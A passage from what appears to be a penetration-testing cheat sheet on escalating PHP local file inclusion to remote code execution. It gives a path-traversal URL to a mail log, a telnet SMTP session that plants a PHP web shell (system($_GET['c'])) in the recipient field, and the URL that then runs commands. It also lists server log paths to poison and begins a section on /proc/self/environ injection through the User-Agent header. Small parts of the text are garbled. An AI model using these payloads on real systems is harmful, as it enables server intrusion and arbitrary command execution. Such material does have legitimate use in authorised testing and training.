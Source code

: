 ### LFI to RCE via SMTP Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 



telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
```

### Log Files

```http
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_lo
```

## Proc Environ Injection

{% embed url="https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1/" %}

Our main target is to inject the `/proc/self/environ` file from the HTTP Header: `User-Agent`. This file hosts the initial environment of the Apache process. Thus, the environmental variable `User-Agent` is likely to appear there.

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

